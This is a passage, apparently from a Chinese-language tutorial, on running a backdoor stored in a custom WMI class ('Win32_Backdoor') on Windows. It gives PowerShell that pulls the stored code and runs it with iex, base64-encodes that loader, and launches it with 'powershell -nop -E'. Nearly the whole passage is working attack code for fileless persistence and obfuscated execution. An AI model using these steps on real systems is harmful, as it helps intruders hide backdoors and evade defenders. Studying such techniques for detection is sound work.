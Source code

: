 执行payload：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

**注：**

通过Invoke-Expression执行命令也可以，使用iex是为了缩短长度

结合waitfor的参数格式，这里选择将代码编码为base64

对执行payload的代码进行base64编码，以下代码保存在code.txt：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

对其进行base64编码，代码如下：

```
$code = Get-Content -Path code.txt
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded 
```

获得base64加密代码如下：

```
JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA== 
```

以上操作如下图

![image](img/b1250ce43210047045d93c6f0cfbb0ea.png)

测试base64加密代码：

```
powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA== 
```

成功执行代码，如下图
